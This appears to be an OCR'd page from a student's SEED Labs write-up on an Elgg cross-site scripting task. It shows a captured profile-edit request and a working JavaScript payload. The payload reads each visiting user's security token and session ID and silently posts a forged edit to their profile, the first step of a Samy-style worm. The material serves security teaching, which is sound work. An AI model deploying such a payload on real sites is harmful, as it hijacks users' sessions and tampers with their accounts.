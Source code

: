 \documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
 __elgg_token=-HmBHBxcaADQibHk6G3bCQ&__elgg_ts=1707413678&name=Samy&description=&accesslevel[description]=1&briefdescription=1905001&accesslevel[briefdescription]=1&location=&accesslevel[location]=1&interests=&accesslevel[interests]=1&skills=&accesslevel[skills]=1&contactemail=&accesslevel[contactemail]=1&phone=&accesslevel[phone]=1&mobile=&accesslevel[mobile]=1&website=&accesslevel[website]=1&twitter=&accesslevel[twitter]=1&guid=59
\end{verbatim}

So, basically content is the concatenated form of all the attributes. We can use this directly in the following way:

\begin{verbatim}
<script type="text/javascript">
	window.onload = function() {
	    var ts=elgg.security.token.__elgg_ts;
	    var token=elgg.security.token.__elgg_token;
	    var userName=elgg.session.user.name;
	    var guid=elgg.session.user.guid;
        var sendurl='/action/profile/edit';
	    var content=`__elgg_token=${token}&__elgg_ts=${ts}&name=Kim Jong Un&description=1905001&accesslevel[description]=1&briefdescription=I am Samy, the worm. Catch me if you can.&accesslevel[briefdescription]=1&location=Moscow&accesslevel[location]=1&interests=Hacking&accesslevel[interests]=1&skills=Cyber Security&accesslevel[skills]=1&contactemail=abc@yahoo.com&accesslevel[contactemail]=1&phone=9786546&accesslevel[phone]=1&mobile=01234567898&accesslevel[mobile]=1&website=www.clickme.com&accesslevel[website]=1&twitter=elonmusk&accesslevel[twitter]=1&guid=${guid}`;

        if(guid != 59)
        {
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST",sendurl,true);
            Ajax.setRequestHeader("Host","www.seed-server.com");
            Ajax.setRequestHeader("Content-Type",
            "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
	}
</script>
\end{verbatim}

This yields the expected results.\newline
But there is a more elegant solution, through Form Data. We end up using that.
\end{document}
